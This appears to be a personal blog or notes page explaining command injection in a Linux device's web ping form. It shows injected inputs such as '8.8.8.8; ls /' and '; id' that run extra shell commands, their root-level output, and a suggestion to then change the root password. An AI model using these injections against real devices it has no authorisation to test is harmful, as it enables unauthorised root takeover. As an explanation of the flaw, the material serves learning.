 ```yaml
---
title: Hacking into things
tags:
  - linux
  - hacking
  - programming
created: 2023-07-13T19:29:40+02:00
updated: 2023-10-25T21:40:26+02:00
enableToc: true
---
```


This has been something that I've had an interest for for many years and have dabbled in every now and then when I had the chance.

Every now and then you get a device that you soon figure out is running a flavour of Linux and you start wondering, can I get root access to it? 🤔
You start poking around and after a little while you find a HTML form that is not behaving as it should.

## HTML Forms
### Ping prompts
Ping prompts might be the easiest to see why it could be so easy to break.

In the form you might see something along the lines of an `Address` field and a `Submit` button.  
You enter in the address and press the button, a few seconds later you get back a response along the lines of:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.1 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=26.1 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.8 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 26.142/26.944/27.731/0.569 ms
```

If you're familiar with Linux you quickly realize that this is the output of `iputils-ping`.  
What you should also realize is that this command is being called from the application running the webserver.  
With this information we can make some assumptions.

The command to get the exact output (except for the latency times and packet loss if any) is the following:
```
$ ping -c 4 8.8.8.8
```
From this we can extrapolate that the `Address` field from the form is populating the address used by the ping command.

Lets assume the command is run as: `ping -c 4 ${address}`  
This shows that the address is a variable and is populate based on what was entered in the `Address` field.

Now, what would happen if we instead input `8.8.8.8; ls /` in the `Address` field?  
The variable would then be expanded to `ping -c 4 8.8.8.8; ls /` and give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=26.0 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.3 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=28.9 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.995/27.524/28.853/1.037 ms
bin   dev  home  lib64       media  opt   root  sbin  sys  usr
boot  etc  lib   lost+found  mnt    proc  run   srv   tmp  var
```
Notice the directory listing at the bottom.

Now for the final check, instead of listing the directory, we check which user is being used to run the webserver and as an extension the commands.  
This we can achieve with the `id` command and would look like this: `; id`.  
The command will be expanded to `ping -c 4 8.8.8.8; id` and would give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.0 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.976/27.351/27.862/0.796 ms
uid=0(root) gid=0(root) groups=0(root)
```

This shows us that the root user is running the commands and we're already in.  
The only thing to do is to change the password of the root user.  

What we've done in this example is what's called Remote Code Execution (RCE) or Code Injection.